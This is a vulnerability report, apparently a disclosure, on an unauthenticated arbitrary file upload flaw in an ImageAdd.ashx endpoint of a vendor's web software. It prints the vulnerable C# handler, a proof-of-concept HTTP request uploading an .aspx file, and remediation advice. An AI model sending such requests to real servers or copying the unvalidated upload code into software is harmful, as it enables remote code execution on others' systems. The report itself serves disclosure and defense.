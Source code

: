 ![image-20250225200928510](./assets/image-20250225200928510.png)

# Vulnerability Report
## Vendor Homepage
http://www.zzskzy.com/

## Title: Arbitrary File Upload Vulnerability in ImageAdd.ashx
### Summary:
The `ImageAdd` endpoint in the provided code snippet lacks proper validation when handling file uploads, leading to a file upload vulnerability.

### Affected Endpoint:
`/ImageAdd.ashx`

### Vulnerability Type:
RCE

### Vulnerable Code:
```c#
public class ImageAdd : IHttpHandler
{
    public void ProcessRequest(HttpContext context)
    {
        context.Response.ContentType = "text/plain";
        var b = true;
        var msg = "";
        try
        {
            var file = context.Request.Files[0];
            var fileName = file.FileName;
            var path = Path.Combine(HttpRuntime.AppDomainAppPath, "upload", DateTime.Now.ToString("yyyyMMdd"));
            if (!Directory.Exists(path))
            {
                Directory.CreateDirectory(path);
            }
            var nn = Path.Combine(path, fileName);
            file.SaveAs(nn);
            msg = "/upload/" + DateTime.Now.ToString("yyyyMMdd") + "/" + fileName;
        }
        catch (Exception ex)
        {
            b = false;
            msg = "图片上传失败" + ex.Message;
        }
        context.Response.Write((b ? 0 : 99) + "$" + msg + "");
    }

    public bool IsReusable
    {
        get
        {
            return false;
        }
    }
}
```

### Proof of Concept (PoC):
```http
POST /ImageAdd.ashx HTTP/1.1
Host: {{Hostname}}
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Content-Type: multipart/form-data;boundary=----WebKitFormBoundaryssh7UfnPpGU7BXfK

------WebKitFormBoundaryssh7UfnPpGU7BXfK
Content-Disposition: form-data; name="file"; filename="update1.aspx"
Content-Type: text/plain

123
------WebKitFormBoundaryssh7UfnPpGU7BXfK--
```

### Impact:
An attacker can exploit this vulnerability to upload arbitrary files to the server, potentially leading to remote code execution (RCE) or other security risks.

### Recommendation:
1. Implement proper file type validation to ensure that only allowed file types are uploaded.
2. Store uploaded files outside of the web root directory to prevent direct access.
3. Implement authentication and authorization checks before allowing file uploads.

### Conclusion:
The lack of input validation in the `ImageAdd` endpoint allows attackers to upload malicious files, posing a significant security risk to the application. It is crucial to address this vulnerability promptly to prevent potential exploitation.

### References:
- OWASP File Upload Cheat Sheet: https://cheatsheetseries.owasp.org/cheatsheets/File_Upload_Cheat_Sheet.html

